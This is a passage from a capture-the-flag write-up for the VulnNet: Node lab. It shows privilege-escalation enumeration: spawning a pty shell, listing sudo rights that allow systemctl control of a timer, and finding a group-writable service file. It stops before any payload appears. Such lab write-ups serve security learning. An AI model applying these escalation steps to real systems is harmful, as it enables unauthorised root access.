 
***GOT USER FLAG.*** 


## Privilege Escalation

1. Continue use basic command `sudo -l`

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
serv-manage@vulnnet-node:~$ sudo -l
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```



2. With `locate` we can find the path of the timer file:

```shell
serv-manage@vulnnet-node:~$ locate vulnnet-auto.timer
/etc/systemd/system/vulnnet-auto.timer
```


3. Review `/etc/systemd/system/vulnnet-auto.timer`

```shell
serv-manage@vulnnet-node:~$ cat /etc/systemd/system/vulnnet-auto.timer                                                                                                                                                                       
[Unit]                                                          
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target    
```


⇒ The timer is running VulnNet utilities every 30 min

Let check `vulnnet-job.service`

```shell
serv-manage@vulnnet-node:~$ locate vulnnet-job.service
/etc/systemd/system/vulnnet-job.service 

serv-manage@vulnnet-node:~$ ls -la /etc/systemd/system/vulnnet-job.service
-rw-rw-r-- 1 root serv-manage 197 Jan 24  2021 /etc/systemd/system/vulnnet-job.service

serv-manage@vulnnet-node:~$ cat /etc/systemd/system/vulnnet-job.service
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df
```